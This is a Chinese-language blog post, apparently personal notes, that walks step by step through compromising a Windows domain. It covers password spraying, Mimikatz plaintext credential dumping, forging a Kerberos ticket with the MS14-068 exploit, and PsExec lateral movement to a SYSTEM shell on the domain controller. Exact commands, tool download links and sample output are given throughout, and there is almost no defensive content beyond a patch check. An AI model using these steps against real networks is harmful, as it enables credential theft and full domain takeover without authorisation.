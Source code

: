 ```yaml
---
layout: post
title:  内网渗透思路
categories: 安全知识
description:  内网渗透思路
keywords: 渗透
---
```


# 渗透流程


1. 收集域控信息
2. 密码爆破
3. 用户提权

## 二、域密码喷洒

[利用一个powershell工具完成 DomainPasswordSpray
](https://blog.csdn.net/qq_41874930/article/details/109308519)
利用工具：[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)


## 三、 用户提权

使用 Mimikatz

https://www.cnblogs.com/-mo-/p/11890232.html

# Kerberos域用户提权漏洞（MS14-068）分析与防范

**生效范围：**  windows (2003/2008/2012/7/8)

## 工具下载
Ms14-068.exe 下载地址:https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068

PSexec 下载地址:https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe

mimikatz 下载地址:https://github.com/gentilkiwi/mimikatz/releases


##  1、查看域控制器的补丁安装情况
微软针对 MS14-068 漏洞提供补丁为 `KB3011780` 。输入命令查看补丁情况：

```
wmic qfe get hotfixid 

```
![](https://ask.qcloudimg.com/http-save/yehe-5487096/0xwlav6oci.png?imageView2/2/w/1620)
可以看到域控机器没有安装补丁。

## 2、查看用户的 SID

以用户 mary 身份登录，输入命令查看 SID 为：S-1-5-21-1218902331-2157346161-1782232778-1124

```dotnetcli
whoami /user
```

还可以使用这条命令获取域内所有用户的 SID：

```
wmic useraccount get name,sid
```
## 3、查看域控制器的主机名

获取域控主机名 / IP 地址

```dotnetcli
net group "Domain controllers" /domain
********
ping 主机名

```

![](https://i.loli.net/2020/01/09/C8m2XV63IKjzMtd.png)

> 注意不要带 $ 符号

测试是否可以访问域控共享文件

```dotnetcli
dir \\域控主机名.域名\c$

```

![](https://i.loli.net/2020/01/09/SUmtaoL2AQMR5ZD.png)

可以看到显示 “拒绝访问”，这是正常，域普通用户当然没有权限访问域控共享文件，现在我们需要使用 MS14-068 提权。




## 4、利用ms14-068.exe 工具生成伪造的 kerberos 协议认证证书

MS14-068 需要几个必要的参数，SID、域用户名、域控地址，另外还需要密码，若没有密码可以使用–rc4 来使用 hsah 生成凭证

` ms-14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户sid -d 域ip`

![](https://i.loli.net/2020/01/09/fD958LTjwCUNvJq.png)
例如：

进入 mimikatz

记住 `mimikatz 要有管理员权限`不然无法抓取内存密码，可以以管理员权限运行。

![](https://img2018.cnblogs.com/blog/1222663/201910/1222663-20191029171807870-1810720099.gif)

 输入`privilege::debug` 权限提升，在`输入 log `会在当前文件夹下生成后面命令执行的结果方便我们查找数据，最后输入`sekurlsa::logonPasswords `抓取密码

![](https://img2018.cnblogs.com/blog/1222663/201910/1222663-20191029172642038-1348450916.gif)

 会在当前目录生成mimikatz 日志文件

日志例如：
```dotnetcli

Authentication Id : 0 ; 434243 (00000000:00075558)
Session           : Interactive from 1
User Name         : zhangsan
Domain            : test
Logon Server      : ABF
Logon Time        : 2022/4/22 9:44:37
SID               : S-1-5-21-2872597263-2872597263-2872597263-1111
```

 
 成功获取到明文密码，也获取了域用户sid 和域控主机名

` MS14-068.exe -u <userName>@<domainName> -p <clearPassword> -s <userSid> -d <domainControlerAddr>`

![](https://img2018.cnblogs.com/blog/1222663/201910/1222663-20191029174506417-1917631510.png)


进入 mimikatz


```
kerberos::list   //查看当前凭证
kerberos::purge  //清除凭证
kerberos::list   //再次查看，确保无凭证
```

使用如下命令导入刚刚生成的伪造凭证

```
kerberos::ptc 凭证地址
```

再次访问域控的共享文件，即可发现已经成功列出目录了

>  `dir \\域控主机名.域名\c$`


![](https://i.loli.net/2020/01/09/rK3oDBlA2m8zdIx.png)

## 5. 使用 Psexec64.exe 横向移动

```dotnetcli
psesec.exe -accepteula \\IPaddress -s cmd.exe

```

![](https://i.loli.net/2020/01/09/tO6l25Wq3ak4VIT.png)

可以观察到命令提示符已经变了，且用户权限为域控的 system 权限（由于 Psexec64.exe 的 - s 原因）。看 IP 地址也可知晓已经成功登陆域控机器了。




# 知识拓展
2.查看域控制器的主机名
Nslookup -type=SRV _ldap._tcp

## 工具
https://github.com/gentilkiwi/kekeo


# 参考

[[后渗透]Mimikatz使用大全](https://www.cnblogs.com/-mo-/p/11890232.html)
https://cloud.tencent.com/developer/article/1760132

https://lionking.top/2020/01/09/MS14-068%E6%8E%92%E9%94%99+%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0/